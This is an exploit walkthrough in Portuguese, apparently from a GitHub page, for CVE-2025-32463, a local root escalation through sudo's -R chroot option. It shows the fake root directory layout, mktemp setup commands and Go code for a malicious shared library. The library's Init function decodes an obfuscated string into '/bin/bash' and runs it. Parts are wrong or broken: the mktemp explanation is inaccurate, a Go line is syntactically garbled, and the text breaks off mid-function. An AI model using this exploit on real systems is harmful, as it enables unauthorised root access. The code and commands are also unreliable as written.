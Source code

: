 # CVE 2025-32463: Privilege Escalation no sudo -R

Olá, eu sou hoWo e nesse paper aborderamos as nuances da CVE 2025-32463 (também conhecida como "CHWOOT")

## Exemplo

Para começar, entenderemos o que é a vulnerabilidade.
Ela ocorre entre as versões 1.9.14 (inclusa) até a 1.9.17 (inclusa), sendo corrigida na versão 1.9.17p1
A vulnerabilidade consiste em:

Criar um temp dir (mktemp) que segue a estrutura:
```anot_estrutura
  /tmp/woot
  -> /tmp/woot/etc
     -> /tmp/woot/etc/nsswitch.conf

  -> /tmp/woot/lib
     -> /tmp/woot/lib/woot.so

```

Claro que não basta apenas sair criando diretórios, temos que seguir um fluxo:

### 1. ***Vamos criar nosso ambiente para executar o exploit*:**

```bash
mktemp -p /tmp/woot/etc
mktemp -p /tmp/woot/lib

```

Explicando rapidamente, utilizamos o mktemp para criar um diretório temporário, em `/tmp`. 
A flag `-p` serve para não termos que diretamente criar o `/tmp/woot` e criar o `./etc` e `./lib`, a flag `-p` cria o `/tmp/woot` automaticamente para que possamos focar em criar os sub-diretórios.
Perceba que criamos `/etc` e `/lib`, simulando um diretório raiz do linux.

### 2. ***Criaremos agora o módulo malicioso*:**

Geralmente criamos esse tipo de coisa em C ou C++, mas eu sou skid então vou utilizar go.

```go
package main

import (
	"C" // a lib "C" nos permite criar o .so (utilizando cgo), e exportar com //export funcname
	"os/exec"
	"strings"

)

var s string = "/ckq3ggzp"
var ss []string

//export Init
func Init() {
    for i, v := range s {
	    ss = append(ss, string([]rune{v i rune(i)}))

    }

    c := exec.Command(strings.Join(ss, ""))
	c.Run()
```